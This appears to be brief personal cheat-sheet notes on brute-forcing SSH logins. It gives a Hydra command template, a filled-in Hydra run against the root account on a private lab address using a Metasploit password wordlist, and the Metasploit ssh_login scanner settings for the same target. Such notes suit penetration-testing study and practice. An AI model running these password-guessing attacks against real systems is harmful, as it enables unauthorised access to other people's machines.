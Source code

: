 # Hydra
---
- `hydra -l/-L <user>/<user_list> -P <pass_list>  ssh://<IP>:<PORT> -t <threads> -v`
	- `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt` ssh://192.168.157.128:22 -t 4 -v
# Metasploit
---
- `use auxiliary/scanner/ssh/ssh_login `
- `set username root`
- `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
- `set rhosts 192.168.157.128`
- `run`